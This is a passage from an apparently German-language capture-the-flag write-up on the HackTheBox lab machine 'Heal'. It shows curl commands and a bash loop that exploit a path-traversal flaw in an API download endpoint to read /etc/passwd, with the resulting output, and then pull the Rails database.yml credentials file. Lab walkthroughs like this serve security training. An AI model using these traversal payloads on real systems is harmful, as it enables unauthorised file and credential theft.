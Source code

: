 ```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ curl -i -H "Authorization: Bearer $TOKEN" http://api.heal.htb/profile  
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 19 Apr 2025 21:17:14 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 86
Connection: keep-alive
x-frame-options: SAMEORIGIN
x-xss-protection: 0
x-content-type-options: nosniff
x-permitted-cross-domain-policies: none
referrer-policy: strict-origin-when-cross-origin
vary: Accept, Origin
etag: W/"534bdd1e70aef84ee6023d1856c79b2e"
cache-control: max-age=0, private, must-revalidate
x-request-id: 5aba65c9-294b-432b-96df-f578c04f8c48
x-runtime: 0.003895

{"id":7,"email":"lyfe@gmail.com","fullname":"lyfe","username":"lyfe","is_admin":false}  
```

#### 2. Path‑Traversal verifizieren

Um die benötigte Anzahl `../` zu bestimmen, haben wir einen Mini‑Loop gebaut:

```bash
for d in {3..9}; do
  printf "[%s] " $d
  curl -s -H "Authorization: Bearer $TOKEN" \
       "http://api.heal.htb/download?filename=$(printf '../%.0s' $(seq 1 $d))/etc/passwd" |
       head -1
done
```

Ergebnis - bei fünf Punkten erschien `/etc/passwd`, Tiefe 2 zeigte eine vorhandene config.ru:

```
[3] {"errors":"File not found"}[4] {"errors":"File not found"}[5] root:x:0:0:root:/root:/bin/bash
[6] root:x:0:0:root:/root:/bin/bash
[7] root:x:0:0:root:/root:/bin/bash
[8] root:x:0:0:root:/root:/bin/bash
[9] root:x:0:0:root:/root:/bin/bash
```

#### 3. Rails‑Konfiguration exfiltrieren

```bash
curl -s -H "Authorization: Bearer $TOKEN" \
     "http://api.heal.htb/download?filename=../../config/database.yml" \
     -o database.yml
```

output (unser ziel ist production, das unterste):

